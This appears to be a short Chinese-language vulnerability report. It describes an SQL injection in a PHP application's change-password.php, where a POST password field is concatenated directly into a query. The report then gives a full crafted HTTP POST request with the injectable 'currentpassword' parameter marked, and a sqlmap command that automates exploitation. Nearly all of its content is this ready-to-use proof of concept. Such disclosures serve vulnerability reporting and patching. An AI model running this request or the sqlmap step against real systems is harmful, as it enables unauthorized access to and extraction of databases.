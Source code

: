 change-password.php文件中$oldpassword直接拼接到sql语句中，而$oldpassword是通过POST请求直接获取的


![alt text](change-password.php%20sql%20inject-1.png)

构造恶意数据包
POST /change-password.php HTTP/1.1
Host: test.jc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://test.jc/admin/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Cookie: PHPSESSID=6keshioktp2eu9p7fg0ent8hk2
Content-Type: application/x-www-form-urlencoded

update=a&currentpassword=aa*

sqlmap sqlmap -r post.txt


![alt text](change-password.php%20sql%20inject-2.png)
